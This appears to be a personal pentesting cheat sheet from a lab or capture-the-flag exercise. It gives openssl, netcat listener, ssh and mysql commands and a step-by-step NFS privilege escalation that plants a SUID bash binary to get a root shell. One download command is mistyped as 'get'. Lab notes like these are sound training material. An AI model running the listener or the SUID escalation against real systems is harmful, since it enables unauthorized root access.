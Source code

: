 ```
openssl s_client -connect [host]:[port] -ign_eof
```
connects to port using ssl encryption

``` 
nc -lvp 4444
```
sets a listener to port 4444

```
ssh raz@10.10.169.1
```	

```
ssh -i [rsa_key_filename] [user]@[ip_address]
```

**ensure you use `chmod 600 rsa_key_filename`**

```
mysql -h [IP] -u [username] -p
```
Connect to MYSQL server

# NFS Share Reverse Shell
1. step one

    ```
     showmount -e [IP]
    ```
    shows visible NFS shares on that IP 

2. Step Two

    ```
    sudo mount -t nfs IP:share /tmp/mount/ -nolock
    ```
    mounts the share from "IP:share" to the directory "/tmp/mount"

3. Step Three
    Download Bash executable
    ```
    get https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash -P ~/Downloads
    ```
4. Step Four

    ```
    cp ~/Downloads/bash ~/share
    ```
    Copy it to the NFS mount point

5. Step Five

    Change its permissions
    ```
    sudo chmod +s bash
    sudo chmod +x bash
    file should have "-rwsr-sr-x" as permissions
    ```
6. Step Six
    ssh into the machine that now holds the bash executable
    run the executable using
	```
    ./bash -p
    ```
>You should now have a shell as "root"
